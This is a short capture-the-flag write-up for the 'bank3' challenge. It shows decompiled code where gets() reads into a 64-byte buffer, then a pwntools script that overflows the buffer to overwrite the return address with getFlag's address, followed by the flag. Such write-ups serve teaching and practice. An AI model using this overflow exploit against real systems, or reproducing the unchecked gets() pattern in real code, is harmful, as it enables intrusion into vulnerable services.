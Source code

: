 ## bank3 (100 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30204

author: xikhud
```

`bank3` is very similar to `bank2`, except that the part which calls `getFlag` is removed:

```cpp
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch]
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```

We use buffer overflow to overwrite the return address with the address of `getFlag`:

```py
from pwn import *
conn = remote('61.28.237.24', 30204)
conn.sendlineafter("name:", b'a' * 80 + p32(0x08048506))
conn.interactive()
```

**Flag:** `HCMUS-CTF{overwrite_all_the_things}`
